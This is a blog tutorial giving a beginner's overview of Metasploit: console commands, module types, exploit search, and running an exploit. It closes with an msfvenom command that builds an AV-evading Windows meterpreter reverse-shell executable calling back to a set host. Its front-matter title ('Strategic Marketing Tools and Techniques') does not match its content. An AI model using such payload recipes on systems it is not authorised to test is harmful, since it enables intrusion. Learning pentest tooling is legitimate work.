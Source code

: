 ```yaml
---
title: Strategic Marketing Tools and Techniques
date: 2021-09-26
tags: [tools]
image: msf.png
---
```


Metasploit is the ultimate penetration testing tool for offensive security. And it's so easy to use that even you could claim to be a hacker just by running a few commands. Also, it is incredibly powerful as well. This guide is a general overview of how Metasploit can be used.

## 1. Getting started

Start the Metasploit console.

```bash
# Start the console
$ msfconsole
```

The console will now show the msf shell. You can provide commands on the shell to run various Metasploit modules.

Metasploit continuously adds new modules to its collection. To make sure you always have the latest exploits, run:

```bash
msf > msfupdate     # Update the msf database
```

Metasploit is quite big and it's easy to get lost around. If you need help, run:

```bash
msf > help          # Show help
```

The console output of the _help_ command might feel overwhelming as well. But don't worry. You'll always have this blog post to help you out.

## 2. Metasploit Modules

Metasploit has thousands of modules. They are arranged in the following categories:

* **Exploits**: It is the most commonly used module. It sends payloads to targets and executes them.
* **Payloads**: It consists of code that runs remotely to exploit the target.
* **Encoders**: It encodes a payload so that it is not detected by firewalls/anti-malware programs.
* **Nops**: It keeps payload sizes consistent when encoders encode a payload. (Learn more about nop sled).
* **Post**: It contains modules that assist post-exploitation.
* **Auxillary**: It includes port scanners, fuzzers, sniffers, and other helper modules.

You can see the modules under each of these categories. Check what exists by running:

```bash
$ show exploits
$ show payloads
```

## 3. Searching for Modules

If you've tried ```show exploits``` you've probably seen a huge list of modules. It's impossible to go through this list and find what you need. You can use the **search** functionality to filter/look for your desired modules. Run:

```bash
$ search ftp
```

This will show you modules that have exploits for FTP servers. You can filter based on more criteria:

```bash
$ search ftp platform:windows rank:excellent
```

This will show excellently ranked FTP server exploits for windows machines. You can filter based on the following fields:

* name
* path
* platform
* type
* app
* author
* cve
* bid
* osdvb

## 4. Run an Exploit

The following series of shell commands are typically used to run an exploit using Metasploit.

At first select the module of your choice that you want to run for exploitation.

```bash
msf > use exploit/[ExploitModule]
```

Modules have multiple options that need to be set for execution. To see what options can be set, see the options:

```bash
msf > show options
```

After seeing the options, set their values like:

```bash
msf > set [Option] [Value]
msf > RHOST 10.100.101.12       # example
msf > set RPORT 8000            # example
```

Now start the exploit:

```bash
msf > exploit
```

## 5. Make Payloads with Msfvenom

Sometimes you'll need to create standalone files as payloads to send them to your target. Msfvenom is a CLI tool that can help with creating these files.

At first search for payloads and encoders that msfvenom has. Payloads execute an attack and encoders encode a payload so that the payload can evade AVs.

```bash
$ msfvenom -l           # Payloads
$ msfvenom -l encoders  # Encoders
```

A typical msfvenom that generates payloads looks like this.

```bash
$ msfvenom -p windows/meterpreter/reverse_tcp
           -f exe 
           -e x86/shikata_ga_nai -i 5 
           LHOST=10.1.1.1
           LPORT=4444 > met.exe
```

Other output formats such as pl, rb, py can also be specified.


